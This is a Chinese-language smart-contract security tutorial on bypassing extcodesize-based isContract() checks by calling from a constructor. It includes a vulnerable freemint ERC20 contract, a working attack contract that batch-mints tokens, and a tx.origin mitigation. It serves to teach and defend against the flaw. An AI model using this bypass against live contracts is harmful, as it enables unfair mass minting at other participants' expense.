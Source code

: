# 8. 绕过合约长度检查

介绍绕过合约长度检查，并介绍预防的方法。

## 绕过合约检查

很多 freemint 的项目为了限制科学家（程序员）会用到 `isContract()` 方法，希望将调用者 `msg.sender` 限制为外部账户（EOA），而非合约。这个函数利用 `extcodesize` 获取该地址所存储的 `bytecode` 长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。

```js
// 利用 extcodesize 检查是否为合约
function isContract(address account) public view returns (bool) {
    // extcodesize > 0 的地址一定是合约地址
    // 但是合约在构造函数时候 extcodesize 为0
    uint size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

这里有一个漏洞，就是在合约在被创建的时候，`runtime bytecode` 还没有被存储到地址上，因此 `bytecode` 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 `constructor` 中的话，就可以绕过 `isContract()` 检查。

## 漏洞例子

下面我们来看一个例子：`ContractCheck`合约是一个 freemint ERC20 合约，铸造函数 `mint()` 中使用了 `isContract()` 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 `mint()` 可以铸造 100 枚代币。

```js
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 1000 枚代币：

```js
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不相等，调用者为合约。

```js
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```
